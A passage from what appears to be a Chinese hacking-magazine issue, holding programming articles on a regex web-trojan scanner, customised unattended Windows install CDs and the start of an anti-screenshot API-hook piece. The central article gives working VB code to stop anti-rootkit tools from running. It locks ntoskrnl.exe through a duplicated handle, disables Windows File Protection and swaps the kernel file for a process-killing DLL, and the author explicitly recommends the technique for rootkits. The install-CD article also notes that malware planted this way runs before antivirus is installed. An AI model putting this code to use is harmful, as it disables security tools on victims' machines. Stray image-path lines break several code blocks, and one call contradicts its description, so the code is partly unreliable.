假设特征码是 hacker，也就是说，如果网页代码里含有 hacker 这个字符，就代表找到了特征码。实现代码如下：

```cpp
#include "greta/regexpr2.h"
using namespace regex;
// 抓取的网页代码保存在 content 变量里
match_results results;   // 容器
rpattern pat("hacker"); // 假设 hacker 是特征码
match_results::backref_type br = pat.match(content.GetBuffer(content.GetLength()), results);
// 进行匹配
if (br.matched) {
    AfxMessageBox("找到特征码了");
} else {
    AfxMessageBox("没有找到特征码");
}





```

运行之后，效果如图2所示，代表 hacker 这个特征码已经找到了。
###### 用正则表达式得到网站所有 URL

上面两步实现之后，我们接下来要得到网站的所有 URL 地址，这样就能实现整站扫描了。同样还要用到正则表达式，不过这次的正则表达式要复杂一点了。

比如“`<a href="http://www.hacker.com.cn/forum/">技术论坛</a>`”，如果网页代码里出现“`<a href`”开头的就代表肯定有 URL 地址，但我们关心的不是 href 关键字，因为正则表达式是直接匹配，不需要我们做任何的字符串处理操作，所以非常方便，节省了很多代码量。在程序中，我们分别自定义了两个函数，FindString 函数是用来抓取网页代码的，FindURL 函数从抓取的网页代码里查找所有的 URL 地址，具体实现代码如下：

```cpp
void CGetAllUrlDlg::FindURL(CString content)
{
    match_results results;
    REGEX_FLAGS dw = GLOBAL | ALLBACKREFS;
    pattern pat("(https?)://([\\w-]+\\.)+[\\w-]+(/[\\w\\-./?%&=]*)?", dw);
    int iGroups = pat.groups();
    int nCount = 0;
    CString m_strResult;
    match_results::backref_type br = pat.match(content.GetBuffer(content.GetLength()), results);
    if (br.matched)
    {
        for (int i = 0; i < results.cbackrefs(); i++)
        {
            if (i % iGroups == 0)
            {
                nCount++;
                m_strResult += results.backref(i).str().c_str();
                m_list.InsertItem(i, m_strResult, 0);
                m_strResult = "";
            }
        }
    }
    else
    {
        MessageBox("match failed!");
    }
}

CString FindString(char* url)
{
    CInternetSession session("HttpClient");
    CHttpFile* pfile = (CHttpFile*)session.OpenURL(url);
    DWORD dwStatusCode;
    CString content;
    pfile->QueryInfoStatusCode(dwStatusCode);
    if (dwStatusCode == HTTP_STATUS_OK)
    {
        ...
    }
}
```

```cpp
CString data;
while (pfile->ReadString(data))
{
    content += data;
}
content.TrimRight();
AfxMessageBox(content);

pfile->Close();
delete pfile;
session.Close();
return content;
}

void CGetAllUrlDlg::OnButton1()
{
    // TODO: Add your control notification handler code here
    m_list.InsertColumn(0, "URL", LVCFMT_LEFT, 200);
    UpdateData(TRUE);
    if (m_url.IsEmpty())
    {
        AfxMessageBox("网页地址不能为空");
        return;
    }
    FindURL(FindString(m_url.GetBuffer(m_url.GetLength())));
}




```

程序编译好之后，效果如图3所示。这样，一款利用正则表达式实现的网马扫描工具就编写完成了，感兴趣的读者，还可以在此基础上继续扩展其功能，让其更加实用。
图3

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC

关键字：编程、文件定制

##### 编程实现定制系统安装盘
文/图　masepu

相信大家对各类集成了第三方软件的自动安装 Windows 系统光盘并不陌生，为了快速装机，大多数人都采用了快速恢复安装和无人值守安装的方式。虽然方便，但这些方式却存在着诸多问题和隐患，默认自动安装的第三方软件是不是我们需要的暂且不说，就其安全性而言就很值得怀疑。前段时间就听说某著名版本的装机光盘内含有恶意代码并以此谋利，而且我自己下载测试的其他几款装机光盘都或多或少地含有各类恶意软件和插件，有一个甚至直接被杀毒软件查出病毒，看来现在在装机光盘中做手脚的现象已是非常普遍了。为了简化装机步骤，我们如果能够通过编程的方法来快速制作出自己的无人值守装机光盘，随时将各类自己常用的工具集成进去，将烦琐的手工操作自动化，那就可以真正做到方便与安全兼顾了。当然，如果将恶意程序集成进去，那么此时杀毒软件还没安装，顺利运行起来就不是难事了。

首先要了解的是手动在安装光盘中集成软件的方法。微软提供的集成方法是利用批处理来完成补丁程序和其他程序的调用和自动安装，批处理的运行又依靠于 Winnt.sif 中的 RunOnceEx 功能来实现。这个 Winnt.sif 文件将在安装系统的过程中提供所有预先输入好的应答信息。其过程是先把所有需要自动安装的补丁或程序放到安装光盘的“$OEM$\$1\”文件安装目录（如 install）目录下，再编写一个或多个批处理来让它们依次执行安装。在安装过程中，安装程序会先把“$1”目录下所有文件都复制到硬盘系统盘下，然后以 Winnt.sif 中的 RunOnceEx 字段来执行文件。唯一可以改名的文件夹只有“install”目录，我们可以把它改为自己喜欢的名字，本文默认使用“install”。不论使用什么名称，都要确保使用的名称与批处理文件中的名称是统一的。

Winnt.sif 文件可以由 Setup Manager（setupmgr.exe）工具来生成，该程序是可用来创建 winnt.sif 应答文件向导模式的工具。本文中我们所讨论的是如何将自己的程序集成到安装光盘中并自动运行，因此主要关心的是 winnt.sif 文件中与自动运行第三方应用程序相关的项。这些项主要包括：

- 1) winnt.sif 文件的 [Data] 字段。将该字段下的 UnattendedInstall 设置为 Yes，则会进行一次无人值守的安装。
- 2) winnt.sif 文件的 [Unattended] 字段。在该字段中添加以下内容：“OemPreinstall=Yes”，该项设置为 Yes 是为了让系统在安装过程中从 $OEM$\$1\ 文件夹下安装额外的程序。
- 3) winnt.sif 文件的 [GuiRunOnce] 字段。在 winnt.sif 文件的 [GuiRunOnce] 字段下指定要执行的批处理文件（*.cmd 或者 *.bat），添加批处理文件的路径位置。

使其在安装程序安装好操作系统并使用管理员账户登录系统后运行这些批处理。在这一过程中，我们可以安装 Hotfix 补丁程序、应用程序、删除不想要的墙纸和屏幕保护等。

可以看出，实现程序自动安装的关键就在于 Winnt.sif 文件。该文件为光盘安装系统的无人值守方式用脚本，存在于 I386 目录下，该文件的详解格式和说明在此处不再赘述，大家可以在网上找到更详细的资料。

如何编写在 winnt.sif 文件下 [GuiRunOnce] 字段中指定运行的批处理文件呢？下面是一个编写好的批处理“applications.cmd”文件内容（本文中批处理名称采用 applications.cmd）。

```bat
applications.cmd:
CLS
@echo off
ECHO.
ECHO 安装我的文件 mytest
ECHO 请稍等...
start /wait %systemdrive%\install\Applications\mytest.exe /S
ECHO.
ECHO 删除安装过程中的临时文件...
RD /S /Q %systemdrive%\install
ECHO.
EXIT
```

在上面文件中我们可以添加多个需要安装的程序，源程序的路径也可以根据情况更改，最后别忘了把批处理文件的路径添加到 winnt.sif 文件的 [GuiRunOnce] 字段。当然，如果你的程序或其他第三方软件没有静默安装参数，就需要你自己手动去写自动安装脚本了。

现在以 Windows XP SP2 光盘为例，将整个制作过程分成以下几个阶段：

- 1）将 Windows XP SP2 光盘内容解压至硬盘某一目录。
- 2）创建 winnt.sif 文件。
- 3）更改 winnt.sif 文件。
- 4）创建“$OEM$\$1\...”安装目录。
- 5）复制欲安装程序到安装目录。
- 6）创建批处理文件。
- 7）添加运行程序的批处理命令。
- 8）将更改后的 Windows XP SP2 内容重新打包成系统光盘。

下面我们开始编程制作过程的第2步到第7步的6个步骤自动化。本程序采用 VC 6.0 编写，在虚拟机 VM 6.0 下测试成功。软件界面如图1所示。其中“选择目录”按钮是用来选择在硬盘上解压好的 Windows 安装文件目录的。如将 Windows XP SP2 光盘解压到了 D 盘的 XP 目录下，则此处应该选择的目录就是“D:\XP”；而“选择文件”按钮用以指定需要随系统一起安装运行的程序。“开始”按钮用以自动完成以上需要手工操作的制作步骤。该程序编写过程中主要涉及的是与文件和字符串操作相关的知识。在“选择目录”按钮下的重点代码如下：

```cpp
char FilePath[255];
BROWSEINFO BroInfo;
ITEMIDLIST *pid;
BroInfo.hwndOwner=this->m_hWnd;
BroInfo.pidlRoot=NULL;
BroInfo.pszDisplayName=szDir;
BroInfo.lpszTitle="选择要添加的文件夹";
BroInfo.ulFlags=BIF_RETURNONLYFSDIRS|BIF_DONTGOBELOWDOMAIN;
BroInfo.lpfn=NULL;
BroInfo.lParam=0;
BroInfo.iImage=0;
pid=SHBrowseForFolder(&BroInfo);
if(pid==NULL) return;
SHGetPathFromIDList(pid,FilePath);
m_CatalogName=FilePath;
// 判断输入的目录是否存在
if(!PathFileExists(szDir)){
  MessageBox("目录不存在!","注意",MB_OK);
  return;
}



```
图1 程序运行界面

以上代码的主要作用是利用 SHBrowseForFolder 函数来实现选择一个目录的功能。在 VC 6.0 中没有提供打开目录的对话框控件，我们可以通过以上方式实现。“选择文件”按钮下的主要代码为：

```cpp
CFileDialog dlg(TRUE,NULL,NULL,OFN_HIDEREADONLY|OFN_OVERWRITEPROMPT,szFilter,NULL);
// 通过模态对话框显示文件对话框
if(dlg.DoModal()==IDOK){
  m_FilePathName=dlg.GetPathName();
  // 获取文件路径
  m_RichEditProcInfo.SetSel(-1,-1);
  m_RichEditProcInfo.ReplaceSel("文件路径：");
  m_RichEditProcInfo.ReplaceSel(m_FilePathName);
  m_RichEditProcInfo.ReplaceSel("\r\n");
  UpdateData(FALSE);
}
```

以上代码主要实现通过文件对话框选择 EXE 可执行文件和 RichEdit 控件内容的功能。在“开始”按钮下，首先通过以下代码获得当前应用程序所在目录：

```cpp
CString path_directory,path_txt;
// path_directory: 路径  path_txt: 路径+文件名
GetModuleFileName(NULL,path_txt.GetBuffer(MAX_PATH),MAX_PATH);
// 得到当前执行程序的路径
path_txt.ReleaseBuffer();
int path_directory_length=path_txt.ReverseFind('\\');
// 在 path_txt 中找到最后一个"\\"
path_directory=path_txt.Left(path_directory_length+1);
```

以下代码是通过文件操作来修改自动创建成功的 winnt.sif 文件。

```cpp
FILE *SifFile;
if((SifFile=fopen(SifFilePath,"at+"))==NULL){
  // 文本文件，允许读和追加
  return;
}
fseek(SifFile,0L,SEEK_END);
fputs("\r\n",SifFile);
fputs("[GuiRunOnce]\r\n",SifFile);
fputs("%systemdrive%\\install\\applications.cmd\r\n",SifFile);
fclose(SifFile);



```

其余如怎么创建运行程序的批处理文件等代码，可以参见源代码，这里不再赘述。最后的步骤就是把解压到硬盘 XP 目录下的所有文件都刻录到光盘上，别忘了要做的是可以引导系统的光盘。为了节省时间，一个简单的方法是：使用一个空白的可引导的 XP ISO 文件，在 WinISO 中打开它，然后把我们用程序处理过的解压到硬盘上的 XP 目录下的内容拖动到 WinISO 界面上，然后保存 ISO。这样的 ISO 文件就可以在常见的刻录软件中以光盘镜像的形式刻录了，也可以在 Virtual PC/VMWare 等虚拟机软件中载入 ISO 文件做测试。图2所示的就是系统自动安装完成后出现的界面，可以看到我们自己指定的程序自动运行了。
图2

程序中还存在一些不足，如该程序没有考虑到有安装参数和需要交互的安装程序的问题，而且只能添加一个自动执行的程序。不过这些问题都可以通过简单的程序修改来解决，这里只是做一个示例，有问题欢迎大家到黑防论坛上一起交流。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：VB
- 关键词：编程、ARK、Ring3

##### Ring 3 下阻止 ARK 启动

文/图 胡文亮（Hovi.Delphic）[HooS-SoFT]

在 Rootkit 眼里，Anti-Rootkit 工具（以下简称为 ARK）的威胁远比 Anti-Virus 软件大。因为市面上出售的 Anti-Virus 软件为了稳定，都用的是成熟的、基本保证不蓝屏的技术。比如 360，其进程枚举和启动项枚举都是在 Ring3 下完成的，所以在 Ring0 下的一个简易 Hook 就能使这两项功能失效……

而 ARK 用的都是先进但不太稳定的技术，所以不少对 AV 有效的办法却对 ARK 无效。在严峻的挑战面前，Rootkit 纷纷使出各种招数对付 ARK，从最早的映像劫持到窗口攻击，再到阻止驱动加载，层出不穷。

不过现在我又发现了两种新的方法：独占访问内核文件和无声替换内核文件。需要特别说明的是，这一切都是用 VB 在 Ring3 下完成的，如果进了 Ring0，就没有意思了。

大家知道，一般 ARK 启动后做的两件事情，就是加载驱动程序和打开内核文件（恢复 SSDT/SSSDT/Inline Hook 都需要）。如果我们禁止它们打开（独占访问），就会出问题。以下代码可以独占访问某个文件。

```vb
Public Function DupFile(lpFileName As String, pid As Long) As Boolean
    Dim bRedup As Boolean
    Dim hFile As Long, hProcess As Long
    Dim hTargetHandle As Long
    EnablePrivilege(SE_DEBUG) '提升权限
    hProcess = OpenProcess(PROCESS_DUP_HANDLE, False, pid)
    If hProcess = 0 Then
        MsgBox "PROCESS_DUP_HANDLE Error"
        DupFile = False
        Exit Function
    End If
    hFile = CreateFile(lpFileName, GENERIC_READ, 0, xxNull, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, 0)
    If (hFile = INVALID_HANDLE_VALUE) Then
        MsgBox "CreateFile Error"
        CloseHandle hProcess
        DupFile = False
        Exit Function
    End If

    bRedup = DuplicateHandle(GetCurrentProcess(), hFile, hProcess, VarPtr(hTargetHandle), 0, False, DUPLICATE_SAME_ACCESS Or DUPLICATE_CLOSE_SOURCE)
    CloseHandle hProcess
    DupFile = bRedup
End Function
```

这个函数原理就是让某个进程独占访问某个文件，使别的进程不能打开此文件。第一个参数是要独占访问的文件路径，第二个参数是进程 ID。进程 ID 填写什么呢？建议填写 Idle 进程的 ID。因为如果填写别的进程，一旦那个进程被意外关闭，那么独占也就失效了。

而 Idle 进程是无法关闭的，因为一旦关闭就会死机。在 Vista 以后的系统里，Idle 进程无法在用户态访问，可以使用 Csrss 的 PID。得到 Csrss 的 PID 很简单，用 CsrGetProcessId 就可以了。注意，如果要打开 Idle 进程或者 Csrss 进程，需要 SE_DEBUG 权限。

测试的代码很简单，直接调用以下代码即可。注意，测试环境为单核的 Windows 2003。具体效果如图 1～图 5 所示。

```vb
Sub Main()
    DupFile "C:\Windows\System32\ntoskrnl.exe", 4
End Sub
```

图1 IceLight-1.96.46  
图2 天狮-v20090228  
图3 XueTr-0.28  
图4 PsNull-3.1426  
图5 SnipeSword-V2008-0429-BETA

由图可见，一段简单的代码即可使各著名 ARK 无法正常使用（WSysCheck 在 Windows 2003 上无法启动，但是在 Windows XP 上却没事）。尽管直接使前三个 ARK（IceLight、天狮、XueTr）无法启动，但是 PsNull 和狙剑还是可以运行的，而且老牌的冰刃、Rootkit UnHooker 没有受到任何影响。……所以，我们要彻底替换掉内核文件。

但是问题马上来了，内核文件是受 Windows File Protect（WFP）保护的，一替换马上又被换回。即使把备份文件删除了，WFP 还会弹出一个警告出来。以前《黑客防线》曾经有篇文章用模拟点击的方法来绕过那个提示框，但其实还有更好的方法：单独关闭系统对某个文件的保护。那个单独关闭特定文件保护的函数叫 SfcFileException，位于 sfc_os.dll 里，没有导出的函数名，只有导出的序号（5）。在 VB 里可以如下声明：

```vb
Private Declare Function SfcFileException Lib "sfc_os.dll" _
Alias "#5" (ByVal dwUnknown0 As Long, ByVal pwszFile As Long, _
ByVal dwUnknown1 As Long) As Long
```

其中第二个参数是文件名，第一个和第三个参数查不到是什么（所以我才用 dwUnknown 来替代），但是 VBGOOD 上的朋友说分别填写 0 和 -1 即可。函数如果返回 0 就是成功，返回非零代表失败（和驱动里的 Zw 系列函数类似）。这么写可以关闭系统对 ntoskrnl.exe 的保护：

```vb
SfcFileException(0, StrPtr("c:\windows\system32\winmine.exe"), -1)
```

其中，StrPtr 是取得字符串的指针，VB 在这点上比 C 系列语言要麻烦。通常来说，这段代码都是返回成功的。……我们关闭了这个文件的保护，自然要替换它……替换成什么呢？我把它替换成了自己用 PowerBasic 写的 DLL，在此 DLL 的 DLL_PROCESS_ATTACH 事件中，只执行一行代码：`Call ExitProcess(0)`（亦可恶心地写成 `DebugBreak()`）。这么做的目的只有一个：整死所有试图加载内核文件的 ARK！代码如下：

```vb
Sub Main()
  Dim s As String, k As String
  s = "c:\windows\system32\ntoskrnl.exe" & vbNullChar
  k = Replace(App.Path & "\xx.dll", "\\", "\")
  Err.Clear
  If SfcFileException(0, StrPtr(s), -1) = 0 Then
    DoEvents: Call Kill(s)
    If Err.Number <> 0 Then MsgBox Err.Description, , "删除出错"
    Call FileCopy(k, s)
    If Err.Number <> 0 Then MsgBox Err.Description, , "替换出错"
  Else
    MsgBox "failed!"
  End If
End Sub
```

我们的代码得到了立竿见影的效果，冰刃、狙剑、Rootkit Unhooker、WsysCheck 都无法运行了，如图 6、图 7 和图 8 所示。

图6 IceSword-1.22  
图7 SnipeSword-v2008-0429  
图8 WsysCheck-v20080223

Rootkit Unhooker-3.8 的错误没有提示，但确实无法运行了。PsNull3 虽然可以运行，但是 SSDT、SSSDT、Inline Hook 扫描都无法使用了。要结束 PsNull3 也很简单，只要用 FindWindow 和 FindWindowEx 查找顶层窗口同时拥有的某些特征（ThunderRT6Form、SysListView32、SysHeader32、SysTabControl32）来确定 PsNull 的进程，再用 GetWindow + SetParent 就可以了。相关代码在本人以前的文章《Inline Hook Shadow SSDT 保护窗体》和《再谈窗体攻击技术》中已经附带，大家稍加修改就可以了。

最后再说几句，内核文件不一定是 ntoskrnl.exe，也有可能是 ntkrnlpa.exe、ntkrnlmp.exe、ntkrpamp.exe，这个与本机的 CPU 内核数有关；若真的要在 Rootkit 中使用这招，还必须拦截关机消息，要在关机前把真正的 ntoskrnl.exe 替换回去，否则的话系统就无法启动了；如果读者想亲自做这个实验，请务必先在虚拟机上尝试，如果出了意外，会十分麻烦；本文在 Windows XP 和 Windows 2003 上测试通过（没条件在 NT6 系统上测试，不代表不能在 NT6 系统上使用）。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：VC、VB
- 关键词：编程、API、Hook

##### API Hook 反屏幕截图

文/图 李卓贤

钩子技术在很多方面都有非常重要的运用，比如其在 Rootkit 上的地位就是够让人重视。不久前有个朋友不知道什么原因，要我帮忙想一套对大多数屏幕拦截工具有效的反截屏算法，这可有点难住我了。如果采用显卡过滤技术，则工程比较大，技术要求稍高，对于我有限的时间而言刻不来；如果是采用网上流行的所谓“键盘钩子”来进行捕获键盘动作，技术含量低且根本没有实质的意义，只能对 Print Screen 等按键进行反应。于是突发奇想，构思一个简单的基于位图相关 API 函数拦截的反截屏程序思路。

众所周知，API 拦截工具的主体开发思路是，使用客户端把 DLL 注入到用户空间进程中，在其中安装钩子，对目标 API 函数进行拦截或者进行改写，使其达到用户需要达到的目的。原理就这么简单，但要使其运用到特定的环境中则需要解决一些问题。就以反截屏程序而言，其需要考虑的主要问题有四个。

一是选择何种 DLL 注入方式。大家都知道使用注册表注入无疑是最简单的，将 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLS` 的值改为目标进程的 IAT 即可。但这样做其实有几点不妥的地方：一是必须重启计算机才有效，二是某些应用程序不一定加载了 User32.dll，还有的杀毒软件也会禁止注册表写入，所以这并不太合适。对于有针对性的拦截，使用远程线程注入 DLL 实现起来更简便。

第二个要解决的问题是对什么 API 进行拦截，需知道这是实现拦截目标的关键。经查证在截图工具中要使用的函数有很多，如 BitBlt、CreateCompatibleBitmap 等等，但像 BitBlt 这样的通用函数不可以进行拦截，因为在其他图片显示软件和一些视频程序中也要用到；但像 CreateCompatibleBitmap 这样的函数只在需要创建位图的进程才会调用，所以可以予以拦截。如下图 1 所示，为用 Depends 查看一个叫 Plugin.exe 的截图软件当中使用了 gdi32.dll 中的多个与位图创建与编辑有关的 API 函数，其中也包括了 CreateCompatibleBitmap。

